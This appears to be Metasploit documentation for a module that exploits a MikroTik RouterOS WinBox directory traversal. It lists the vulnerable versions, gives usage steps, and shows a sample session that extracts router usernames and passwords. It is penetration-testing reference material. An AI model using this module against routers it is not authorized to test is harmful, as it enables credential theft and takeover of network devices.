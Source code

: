 ## Vulnerable Application

MikroTik RouterOS allows unauthenticated remote attackers to read arbitrary files
through a directory traversal through the WinBox interface (typically port 8291).

Vulnerable versions of MikroTik RouterOS:

* (bugfix) 6.30.1-6.40.7
* (current) 6.29-6.42
* (RC) 6.29rc1-6.43rc3

MikroTik images can be downloaded from [here](https://mikrotik.com/download/archive)

### Adding Users

To add users to the MikroTik device, use the following commands:

Get the groups first

```
/user group print
```

Add a user

```
/user add name=[name] password=[password] group=[group]
```

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/gather/mikrotik_winbox_fileread`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should credentials.

## Options

## Scenarios

### Mikrotik Cloud Router RouterOS 6.40.4

```
msf > use auxiliary/gather/mikrotik_winbox_fileread 
msf auxiliary(gather/mikrotik_winbox_fileread) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(gather/mikrotik_winbox_fileread) > run

[*] Running for 1.1.1.1...
[*] 1.1.1.1 - Session ID: 54
[*] 1.1.1.1 - Requesting user database through exploit
[*] 1.1.1.1 - Exploit successful, attempting to extract usernames & passwords
[*] 1.1.1.1 - Extracted Username: "write" and password "write"
[*] 1.1.1.1 - Extracted Username: "read" and password "read"
[*] 1.1.1.1 - Extracted Username: "admin" and password ""
[*] 1.1.1.1 - Extracted Username: "user2" and password "password1"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
